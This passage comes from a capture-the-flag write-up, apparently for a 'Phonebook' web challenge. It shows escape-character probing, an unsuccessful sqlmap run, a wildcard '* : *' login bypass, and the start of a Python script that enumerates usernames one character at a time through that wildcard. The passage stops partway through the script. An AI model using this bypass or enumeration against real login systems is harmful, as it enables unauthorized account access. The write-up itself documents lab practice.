 `"\'"`   ==>   `"error":"invalid character '\\'' in string escape code"`

`"\\'"`   ==>   `"error":"Unexpected EOF"`

Unexpected EOF? That probably means we properly injected. I copied the above request into a new file PostRequest.txt, changed the value of "term" ("term":"a") to something that would yield a 200 status, then tried **sqlmap**:

`sqlmap -r PostRequest.txt`

And, after much probing... sqlmap gave no actionable result.

There is still a piece of information that we've gathered but have not tried: why not try regexp stuff through the search field? It worked on the login page, so maybe it will work here too. A quick search for various terms with an asterisk yield exactly what we would expect: it treats it like * in regexp. Ex a search for "***skynet**" gives only reese@skynet.com.

Having no success in abusing the Phonebook search, I went back to the login form to see what else was possible.



## Login Form

The login form accepted the wildcard character credential * : *. But is that all it will accept? If the ***** is acting that way, we should be able to use the login form to check for any valid credentials. I.e we can check a sequence like the following, and finally fail on the last attempt.

> F*
>
> FU*
>
> FUL*
>
> ...
>
> FULLUSERNAME*

So by guessing and checking longer and longer substrings, we can find a valid credential. A bunch of matches followed by one mismatch would indicate the username is valid.

I performed the auth bypass using * : *, and caught the request in Burp proxy. Burp allows you to convert an arbitrary request into a **cURL** command by right-clicking the POST. While this probably could have been done using some bash scripting and cURL, I am more comfortable in Python.

> Check out this wonderful website that does the conversion of **cURL** to Python **Requests**: https://curl.trillworks.com/#python

To extract the first matching username, I wrote this script (based on the above Requests snippet):

```python
#!/bin/python3

import requests

matchCodes = [200,302]
filterLocation = ['ailed']

alphabet = [c for c in "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_."]
maxLength = 40

headers = {
    'Host': '68.183.41.74:31495',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': '21',
    'Origin': 'http://68.183.41.74:31495',
```
